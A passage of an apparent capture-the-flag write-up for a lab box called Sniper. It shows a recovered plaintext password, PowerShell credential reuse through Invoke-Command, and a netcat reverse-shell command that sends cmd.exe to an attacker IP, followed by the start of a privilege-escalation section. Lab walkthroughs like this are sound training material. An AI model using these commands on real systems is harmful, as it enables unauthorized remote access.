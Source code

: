 Password : **36mEAhz/B8xQ~2VM**

⇒ Using the password for user chris :

`$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force` 

`$cred = New-Object System.Management.Automation.PSCredential("Sniper\chris", $pass)` 

`Invoke-Command -Computer localhost -Credential $cred -Authentication Default -ScriptBlock {whoami}`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2016.png)

→ Popped an reverse shell as user chris :

**Invoke-Command -Computer localhost -Credential $cred -Authentication Default -ScriptBlock {C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.34 1234 -e cmd.exe}**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2017.png)

---

## ⇒ *Privilege Escalation to Administrator*

There's a folder C:\Docs which contains the following files :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2018.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2018.png)
